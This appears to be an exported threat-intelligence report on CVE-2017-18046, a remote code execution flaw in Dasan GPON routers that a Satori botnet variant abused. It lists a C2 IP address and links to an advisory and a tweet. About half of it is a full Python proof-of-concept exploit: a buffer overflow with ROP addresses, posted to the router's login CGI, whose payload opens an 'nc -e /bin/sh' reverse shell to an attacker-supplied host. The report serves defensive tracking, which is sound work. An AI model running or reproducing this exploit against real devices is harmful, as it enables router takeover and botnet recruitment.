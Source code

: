 # Threat Report: 2018-02-11: OSINT - Dasan Unauthenticated Remote Code Execution - and ongoing abuse


## Key Intelligence
* Date: 2018-02-11
* Threat Level: 3 (Low)
* Tags: tlp:white, misp-galaxy:tool="Mirai", misp-galaxy:tool="Satori"

---

## Indicators of Compromise (IOCs)
### External analysis
* link: https://blogs.securiteam.com/index.php/archives/3552
* text: The following advisory describes a buffer overflow that leads to remote code execution found in Dasan Networks GPON ONT WiFi Router H640X versions 12.02-01121 / 2.77p1-1124 / 3.03p2-1146

Dasan Networks GPON ONT WiFi Router â€œis indoor type ONT dedicated for FTTH (Fibre to the Home) or FTTP (Fiber to the Premises) deployments. That can work as simple Bridge or behave as Router/NAT. Itâ€™s cost-effective CPE that meets carrier-class requirement for Telcom industry and guarantee reliable service proven in the field.â€

### Network activity
* ip-dst: 185.62.188.88 — C2 (download of the first stage)

### Payload delivery
* vulnerability: CVE-2017-18046

### Support Tool
* text: import sys
import socket
import json
import time
import struct
import ssl

if len(sys.argv) != 4:
    print "Use: {} ip port connectback".format(sys.argv[0])
    sys.exit(1)

host = str(sys.argv[1])
port = int(sys.argv[2])

connectback = str(sys.argv[3])

buf = 1024
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#sock.settimeout(10)

clientsocket = ssl.wrap_socket(sock)
#clientsocket = sock
clientsocket.connect((host, port))

addr_libc = 0x2ad0c000 # 0x2ad0e000 with H640DW

# rop1
rop1 = addr_libc + 0x00115d40       #addiu $a0,$sp,0x18 |  jalr  $s0
addr_rop1 = struct.pack(">i",rop1)
#rop2
system = addr_libc + 0x0003CC9C     #system
addr_system =  struct.pack(">i",system)

# execute command
command = "nc " + connectback + " -e /bin/sh;"

payload = "A"*(756 - 0x28) + addr_system + 'C'*(0x28-8) + addr_rop1 + ';'*24 + command

data = "action={}&txtUserId=a&button=Login&txtPassword=a&sle_Language=english\r\n".format(payload)

http_payload = """POST /cgi-bin/login_action.cgi HTTP/1.1\r\nHost: 192.168.1.100:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Encoding: gzip, deflate\r\nReferer: https://192.168.1.100:8080/cgi-bin/login.cgi\r\nConnection: keep-alive\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: {}\r\n\r\n{}""".format(len(data),data)

print http_payload

clientsocket.send(http_payload)

respond_raw = clientsocket.recv(buf).strip()

print respond_raw

respond_raw = clientsocket.recv(buf).strip()

print respond_raw
respond_raw = clientsocket.recv(buf).strip()

print respond_raw

clientsocket.close() — Proof of Concept

## Objects
### microblog — Microblog post like a Twitter tweet or a post on a Facebook wall.
* [Other] text: So a brand new satori variant is causing port 8080 spike, it is looking for this new vulnerability https://blogs.securiteam.com/index.php/archives/3552 â€¦ (CVE-2017-18046) , device affected "Dasan GPON ONT WiFi Router", new C2 is 185.62.188.88
* [Other] text: Twitter
* [External analysis] url: https://twitter.com/360Netlab/status/962521516352077824
